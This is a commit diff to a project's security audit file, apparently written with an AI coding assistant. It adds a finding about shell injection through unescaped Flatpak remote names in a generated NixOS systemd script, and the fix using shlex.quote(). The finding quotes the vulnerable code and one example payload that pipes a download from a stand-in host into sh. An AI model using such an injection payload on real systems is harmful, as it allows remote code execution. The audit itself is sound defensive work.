

Before and after one commit to DSpayreR6/nico, a Markdown page: SECURITY_AUDIT.md, 3 parts joined by grey strips. Shown at 95% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update security audit: document and close flatpak shell injection finding
- Finding 4.4: shell injection via unescaped remote name/URL in generated
  systemd flatpak-repo script; fixed with shlex.quote() in generator.py
- Summary table updated (entry 8)
- Audit last-updated date set to 2026-05-09

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/SECURITY_AUDIT.md
+++ b/SECURITY_AUDIT.md
@@ -1,6 +1,6 @@
 # Security Audit – NiCo
 
-**Date:** 2026-04-26
+**Date:** 2026-04-26 · **Last updated:** 2026-05-09
 **Auditor:** Claude Code (claude-sonnet-4-6)
 **Scope:** `nico/` and `testing/` directories (7818 LOC)
 
@@ -129,7 +129,33 @@ All file-write endpoints were reviewed:
 
 ---
 
-### 4.4 CSRF Protection ✅ OK
+### 4.4 Shell Injection via Flatpak Remote Data in Generated Nix Script ✅ FIXED (2026-05-09)
+
+**File:** `nico/generator.py` (two locations, `generate_configuration_nix` and `generate_host_nix`)
+
+**Finding:** Flatpak remote `name` and `url` values entered by the user were interpolated unescaped into a Nix multiline string used as the `script` attribute of a `systemd.services.flatpak-repo` block:
+
+```python
+# Before fix – unsafe
+f"      flatpak remote-add --if-not-exists {r['name']} {r['url']}"
+```
+
+The generated Nix expression is written to disk and later executed by systemd as a shell script. A malicious remote name such as `flathub; curl http://evil.example | sh #` would result in arbitrary shell command execution during NixOS activation.
+
+**Mitigating factors:** App binds to `127.0.0.1` only; CSRF protection is active. Exploitation required either local access or a CSRF bypass.
+
+**Fix applied:**
+
+```python
+import shlex
+f"      flatpak remote-add --if-not-exists {shlex.quote(r['name'])} {shlex.quote(r['url'])}"
+```
+
+`shlex.quote()` wraps values in single quotes and escapes embedded single quotes, neutralising all shell metacharacters.
+
+---
+
+### 4.5 CSRF Protection ✅ OK
 
 - Token generated with `secrets.token_hex(32)` per session
 - Compared with `secrets.compare_digest()` (constant-time, no timing attacks)
@@ -138,7 +164,7 @@ All file-write endpoints were reviewed:
 
 ---
 
-### 4.5 Network Exposure ✅ OK
+### 4.6 Network Exposure ✅ OK
 
 - Server binds to `127.0.0.1` only (`HOST = "127.0.0.1"` hardcoded in `main.py`)
 - No telemetry, no remote calls initiated by the server
@@ -156,8 +182,9 @@ All file-write endpoints were reviewed:
 | 5 | Low | B101: `assert` in test fixture code under `testing/` | ✅ Informational |
 | 6 | Info | No CVEs in dependencies | ✅ Clean |
 | 7 | Fixed | `_modify_brick_in_file` path traversal | ✅ Re-verified fixed |
+| 8 | Medium → Fixed | Shell injection via Flatpak remote name/URL in generated Nix script | ✅ Fixed 2026-05-09 with `shlex.quote()` |
 
-**Highest real risk:** No currently confirmed medium/high exploitable issue in the audited scope. The previous brick path traversal was re-verified as fixed on 2026-04-26.
+**Highest real risk:** No currently confirmed medium/high exploitable issue in the audited scope.
 
 ---
 
````
